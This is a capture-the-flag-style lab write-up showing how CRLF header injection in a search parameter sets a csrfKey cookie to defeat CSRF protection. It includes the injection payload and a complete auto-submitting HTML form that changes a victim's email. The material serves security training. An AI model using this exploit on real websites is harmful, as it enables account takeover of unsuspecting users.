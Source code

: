 # CSRF + Header injection where token is tied to non-session cookie 

In this lab, we find that the CSRF token is not linked to the session cookie, but rather to a value called `csrfKey`.

The back-end validates whether the `csrf` value matches the `csrfKey`.

![Screenshot1](/04-Screenshots/CSRF+Header-injection0.png)

In the search section, we discover that **Header Injection** can be exploited, allowing us to arbitrarily set a cookie value by adding \r\n:

`?search=test%0d%0aSet-Cookie:%20<ARBITRARY-VALUE>`

![Screenshot2](/04-Screenshots/CSRF+Header-injection1CHANGE.png)

![Screenshot3](/04-Screenshots/CSRF+Header-injection2CHANGE.png)

**Exploitation:**

Our goal is to make the victim set a `csrfKey` value that matches the CSRF token, and then perform an email change via CSRF.

- 1: make a request and save the CSRF token along with the csrfKey.
- 2: create an HTML CSRF form using the saved token.
- 3: below the form, inject a header to assign the csrfKey cookie value that matches the CSRF token.

```html
<form class="login-form" name="change-email-form" action="<IP>/my-account/change-email" method="POST">
	 <input type="hidden" type="email" name="email" value="foo@foo.com">    
	 <input type="hidden" type="email" name="csrf" value="<CSRF-VALUE>>"> 
</form>

<img src="https://<IP>/?search=test%0d%0aSet-Cookie:%20csrfKey=<CSRF_KEY-VALUE>%3b%20SameSite=None" onerror="document.forms[0].submit()">
```